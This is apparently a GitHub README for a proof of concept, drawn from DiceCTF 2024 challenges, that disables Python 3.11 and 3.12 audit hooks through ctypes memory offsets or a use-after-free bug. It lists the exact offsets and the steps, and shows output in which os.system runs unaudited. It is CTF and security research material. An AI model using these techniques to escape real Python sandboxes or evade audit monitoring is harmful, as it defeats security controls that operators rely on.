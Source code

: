 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
Diligent auditor from *organizers*: <https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>  
IRS writeup from *Maple Bacon*: <https://maplebacon.org/2024/02/dicectf2024-irs/>

## Tested environment
```
Python 3.12.1 (main, Feb  3 2024, 17:23:12) [GCC 13.2.1 20230801] on linux
Python 3.11.7 (main, Jan 29 2024, 16:03:57) [GCC 13.2.1 20230801] on linux
```

## Offsets
```python
# ONLY TESTED ON PYTHON 3.12 and 3.11
# the offsets are from POC.py
# offset for audit hook set by python and C
if sys.version_info[:2] == (3, 12):
    PTR_OFFSET = [0x41448, -0x11df0]
else:
    PTR_OFFSET = [0xe00, -0xe388]
```

## Smash Audit hook using `ctypes`
### Concept
For audit hook set in Python: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `GET_INTERP_ADDR()->audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.  
For audit hook set in C: according to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `_PyRuntime.audit_hooks.head` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks to `NULL`.
### How to use
```bash
# or ./build311.sh
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
C audit hook triggered! event=sys.addaudithook
--- finished setup ---
PyInterpreterState_addr=0x64df082debe8
PyRuntimeState_addr=0x64df082cc180
PyInterpreterState.audit_hooks_ptr_addr=0x64df0831ffb0
PyRuntimeState.audit_hooks_ptr_addr=0x64df082ccd78

audit_hook_ptr_offset_by_py=0x41448
audit_hook_ptr_offset_by_c=-0x11df0
len=1 should be 1
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered! ('sys.addaudithook', ())
--- finished setup ---
C audit hook triggered! event=os.system
audit hook triggered! ('os.system', (b"echo 'test audit hook -- this will trigger hook'",))
test audit hook -- this will trigger hook
test audit hook -- this will not

```

## Smash Audit hook without `ctypes`
[UAF POC](./UAF-issue91153.md)
### How to use
```bash
# or ./build311.sh
./build.sh
./POC-no-ctypes.py
./POC2-no-ctypes.py
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [x] Find a way to get the `audit_hook` address without using `ctypes`
- [ ] Use <https://bugs.python.org/issue43838> to smash it?
